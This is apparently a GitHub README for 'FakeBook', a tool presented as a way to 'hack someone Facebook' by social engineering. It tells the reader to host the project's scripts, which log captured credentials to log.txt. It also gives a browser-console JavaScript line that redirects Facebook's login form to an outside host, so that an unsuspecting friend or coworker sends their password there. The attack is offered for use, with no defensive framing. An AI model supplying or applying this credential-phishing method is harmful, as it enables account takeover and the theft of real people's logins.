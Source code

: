 # FakeBook - JavaScript inject0r
Hack Someone Facebook With JavaScript inject0r (Social Engineering)

Give to a friend near you in the Office or Computer labs to Login into His or her FaceBook ツ

Upload All the scripts from <strong>https://github.com/aghanathan/FakeBook</strong> into your Web Hosting (e.g. <b>'/public_html/FakeBook'</b>)
It Will Create a text file ('log.txt') (e.g. <b>http://gofreelancer.xyz/FakeBook/log.txt</b>)

<h3><u>How To Inject & use JavaScript to change the form action</u></h3>
<ul>
  <li>Open <strong>https://www.facebook.com</strong> with <b>Google Chrome</b> Browser</li>
  <li>Right-click on any page element and select <b>Inspect Element</b> and then <b>Console</b></li>
  <li>Copy & Paste (<b>Crtl+V</b>) of this a line Javascript:<br>
    <code>document.getElementById('login_form').action = 'http://gofreelancer.xyz/FakeBook/login.php';</code>
  </li>
</ul>

<b>Live Demo</b>: https://youtu.be/mkoXBder9jo
